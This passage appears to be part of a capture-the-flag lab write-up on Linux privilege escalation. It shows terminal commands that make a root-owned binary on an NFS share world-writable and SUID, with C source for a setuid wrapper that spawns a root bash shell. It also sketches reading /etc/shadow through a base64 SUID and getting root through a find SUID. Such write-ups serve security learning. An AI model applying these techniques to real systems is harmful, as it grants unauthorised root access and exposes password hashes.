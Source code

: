 ```bash
$ sudo chmod 777 nfs  

[29/03/22 7:56:21] joey@blackarch:/tmp/mounttmp
$ ls -l    
total 32
-rwxrwxrwx 1 root root 16184 Mar 29 19:55 nfs

[29/03/22 7:56:25] joey@blackarch:/tmp/mounttmp
$ sudo chmod +s nfs

[29/03/22 7:56:30] joey@blackarch:/tmp/mounttmp
$ ls -l
total 32
-rwsrwsrwx 1 root root 16184 Mar 29 19:55 nfs
```

Yeah that's a lot of commands. The main thing is just to create the executable, make it 777, then make it +s. The specific code is 

```C
int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

Then just `sudo gcc nfs.c -o nfs -w` 

Then on the target machine you can `./nfs` and get a privileged shell.

Remember to use the /tmp folder if you can. It's pretty much always writeable.



### Task 12: Capstone Challenge

This one was just using a base64 SUID to read /etc/shadow and this gain lateral access to a second account. 

Second account has a `find` SUID so that was easily used to get a root shell. 

LinPeas abuse for both.



